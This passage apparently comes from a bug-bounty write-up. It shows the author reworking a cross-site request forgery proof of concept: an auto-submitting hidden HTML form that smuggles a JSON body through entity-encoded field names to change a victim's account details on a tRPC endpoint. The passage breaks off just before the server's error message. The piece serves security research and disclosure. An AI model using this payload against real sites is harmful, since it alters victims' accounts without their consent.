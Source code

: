<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Fixing the CSRF Exploit

To bypass this issue, I realized the `=` symbol could be "hidden" within a known parameter value instead of being treated as part of a new parameter. I tweaked the PoC code as follows:

```html
<html>
  <body>
    <form action="https://dashboard.target.com/trpc/users.updateUserInfo?batch=1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;0&quot;&#58;&#123;&quot;accountName&quot;&#58;&quot;Cyberar s&quot;&#44;&quot;name&quot;&#58;&quot;asdf ccccc&quot;&#44;&quot;subscribed&quot;&#58;&quot;on&quot;&#44;&quot;phone&quot;&#58;&quot;1099424296&quot;&#44;&quot;country&quot;&#58;&quot;EG" value="&quot;&#125;&#125;&#13;&#10;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Unfortunately, the server still rejected the request, returning this error:
